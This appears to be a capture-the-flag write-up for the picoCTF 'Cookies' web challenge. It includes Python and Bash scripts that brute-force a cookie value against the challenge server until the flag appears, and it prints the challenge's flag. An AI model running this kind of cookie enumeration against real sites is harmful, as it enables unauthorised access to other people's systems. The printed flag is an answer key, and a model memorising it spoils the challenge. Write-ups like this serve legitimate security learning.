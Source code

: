 # Overview 
Category: [Web Exploitation]()

AUTHOR: MADSTACKS

# Description
Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:54219/

# Solution
- I noticed there's a grand total of one cookie with a value of 0. I changed the value to 1 and refreshed the page.
```
I love chocolate chip cookies!
```
- I try increase the numeric value of the value cookie and I use script :
```python
import requests

url = "http://mercury.picoctf.net:54219/check"
cookie_name = "name"  

for i in range(1, 501):
    cookies = {cookie_name: str(i)}
    try:
        response = requests.get(url, cookies=cookies, timeout=10)
        if "picoCTF{" in response.text:
            print(f"Flag found: {response.text}")
            break
        else:
            print(f"Checked value {i}, no flag found.")
    except requests.exceptions.RequestException as e:
        print(f"Request failed for value {i}: {e}")

print("Completed.")
```
- Or can use BASH script:
```bash
#!/bin/bash

url="http://mercury.picoctf.net:54219/check"

for i in {0..50}
do
  curl --cookie "name=$i" "$url"
done
```
> ./cookie.sh  | grep "picoCTF{" > flag.txt


> Flag: **picoCTF{3v3ry1_l0v3s_c00k135_96cdadfd}**